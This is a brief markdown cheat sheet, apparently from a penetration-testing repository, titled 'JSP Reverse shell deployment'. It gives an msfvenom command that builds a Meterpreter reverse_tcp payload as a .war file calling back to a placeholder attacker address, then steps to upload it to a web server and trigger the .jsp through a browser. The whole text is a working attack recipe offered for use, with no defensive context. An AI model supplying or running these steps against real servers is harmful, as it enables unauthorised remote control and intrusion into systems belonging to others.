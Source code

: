 # JSP Reverse shell deployment

#### 1) Create a .war file with msfvenom: 

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=MY_IP LPORT=PORT -f war > pwn.war

#### 2) Unzip war file: 

    unzip pwn.war

#### 3) Upload .war file to webserver

#### 4) Call the .jsp file with the browser

#### 5) BOOM!
